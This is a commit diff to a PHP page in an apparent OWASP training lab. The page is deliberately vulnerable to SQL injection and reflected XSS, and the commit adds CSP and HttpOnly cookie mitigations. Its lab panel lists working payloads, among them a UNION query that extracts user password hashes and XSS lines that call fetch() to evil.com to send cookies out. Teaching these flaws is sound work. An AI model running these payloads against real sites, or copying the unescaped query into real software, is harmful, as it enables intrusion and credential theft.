

Before and after one commit to Guajilodev/owasp-top-ten-labs-2025, a PHP site: page /a05_clientes/buscar.php in a window 1280 px wide. Run offline with PHP 8.4, Linux system fonts and the light colour scheme.

Commit message:
feat(a05): mitigate XSS attack surface with CSP + HttpOnly
- Add live demo link to README
- Add CSP header blocking external connections (no BeEF, no exfiltration)
- Set session cookie as HttpOnly + SameSite=Strict
- XSS still executes for educational purposes but cannot steal cookies
- Update lab panel with mitigation explanation

```diff
--- a/src/a05_clientes/buscar.php
+++ b/src/a05_clientes/buscar.php
@@ -7,9 +7,20 @@
  * 1. SQL Injection: query armada por concatenacion directa
  * 2. XSS reflejado: el output no usa htmlspecialchars()
  *
+ * MITIGACION DE SUPERFICIE:
+ * - CSP bloquea fetch/XHR a externos (no BeEF, no exfiltracion)
+ * - HttpOnly cookie (XSS no puede leer document.cookie)
+ * - El XSS sigue ejecutando para fines educativos (alert funciona)
+ *
  * NO USAR EN PRODUCCION - Solo para fines educativos
  */
 
+// CSP: permite scripts inline (XSS funciona) pero bloquea conexiones externas
+header("Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline'; connect-src 'self'; frame-ancestors 'self';");
+
+// Cookies HttpOnly + SameSite para reducir impacto del XSS
+ini_set('session.cookie_httponly', 1);
+ini_set('session.cookie_samesite', 'Strict');
 session_start();
 
 $_SESSION['user_id'] = $_SESSION['user_id'] ?? 2;
@@ -29,7 +40,10 @@ $labInfo = [
             <li><strong>SQL Injection:</strong> La query se arma concatenando el input directamente</li>
             <li><strong>XSS reflejado:</strong> Los resultados se muestran sin escapar</li>
         </ol>
-        <p class="mb-0">Observa la URL cuando inyectas algo - el input se refleja en la pagina.</p>
+        <div class="alert alert-info small mt-2 mb-0">
+            <strong>Mitigacion aplicada:</strong> CSP bloquea conexiones externas + cookie HttpOnly.
+            El XSS ejecuta (alert funciona) pero no puede robar sesion ni contactar servidores externos.
+        </div>
     ',
     'exploit' => '# Ver todos los clientes (bypass del filtro)
 ?q=\' OR \'1\'=\'1
@@ -37,14 +51,24 @@ $labInfo = [
 # Extraer tabla users con UNION
 ?q=\' UNION SELECT id,username,password_md5,email,role,created_at,7,8 FROM users--
 
-# XSS basico
+# XSS basico (FUNCIONA - el alert se ejecuta)
+?q=<script>alert(\'XSS ejecutado!\')</script>
+
+# XSS robo de cookie (FALLA - cookie es HttpOnly)
 ?q=<script>alert(document.cookie)</script>
+# Resultado: cookie vacia porque es HttpOnly
 
-# XSS con robo de sesion (conceptual)
-?q=<script>fetch(\'http://evil.com/steal?\'+document.cookie)</script>',
-    'prevention' => '// ESTE ARCHIVO (vulnerable):
-$q = "SELECT * FROM clients WHERE name LIKE \'%" . $_GET[\'q\'] . "%\'";
-echo $row[\'name\']; // SIN escapar
+# XSS exfiltracion (BLOQUEADO por CSP)
+?q=<script>fetch(\'http://evil.com/steal?data=test\')</script>
+# Resultado: CSP bloquea la conexion externa',
+    'prevention' => '// ESTE ARCHIVO (vulnerable pero mitigado):
+// CSP: script-src \'self\' \'unsafe-inline\'; connect-src \'self\'
+// Cookie: HttpOnly + SameSite=Strict
+
+// El XSS ejecuta PERO:
+// - No puede leer document.cookie (HttpOnly)
+// - No puede hacer fetch() a externos (CSP connect-src)
+// - No puede cargar scripts externos (CSP script-src)
 
 // buscar_secure.php (seguro):
 $stmt = $pdo->prepare("SELECT * FROM clients WHERE name LIKE ?");
@@ -148,8 +172,12 @@ include __DIR__ . '/../shared/header.php';
         <div class="fs-3 me-3">XSS!</div>
         <div>
             <strong>Se detecto contenido HTML/JS en el input</strong><br>
-            <small>El termino de busqueda se muestra arriba SIN escapar.
-            Si abriste esta URL en el browser, el script ya se ejecuto.</small>
+            <small>El script se ejecuto, PERO esta mitigado:</small>
+            <ul class="small mb-0 mt-1">
+                <li><code>document.cookie</code> esta vacio (HttpOnly)</li>
+                <li><code>fetch()</code> a externos bloqueado (CSP)</li>
+                <li>No se puede cargar BeEF ni scripts externos (CSP)</li>
+            </ul>
         </div>
     </div>
     <?php endif; ?>
@@ -252,12 +280,12 @@ include __DIR__ . '/../shared/header.php';
                     </ul>
                 </div>
                 <div class="col-md-6">
-                    <h6>XSS</h6>
+                    <h6>XSS (mitigado con CSP + HttpOnly)</h6>
                     <ul class="small">
-                        <li><a href="?q=<script>alert('XSS')</script>">Alert basico</a></li>
-                        <li><a href="?q=<img src=x onerror=alert('XSS')>">Img onerror</a></li>
-                        <li><a href="?q=<svg onload=alert('XSS')>">SVG onload</a></li>
-                        <li><a href="?q=<body onload=alert('XSS')>">Body onload</a></li>
+                        <li><a href="?q=<script>alert('XSS')</script>">✅ Alert basico (funciona)</a></li>
+                        <li><a href="?q=<script>alert(document.cookie)</script>">⚠️ Leer cookie (vacia - HttpOnly)</a></li>
+                        <li><a href="?q=<img src=x onerror=alert('XSS')>">✅ Img onerror (funciona)</a></li>
+                        <li><a href="?q=<script>fetch('http://evil.com')</script>">❌ Exfiltrar (bloqueado CSP)</a></li>
                     </ul>
                 </div>
             </div>
```
Also changed, not shown: README.md.
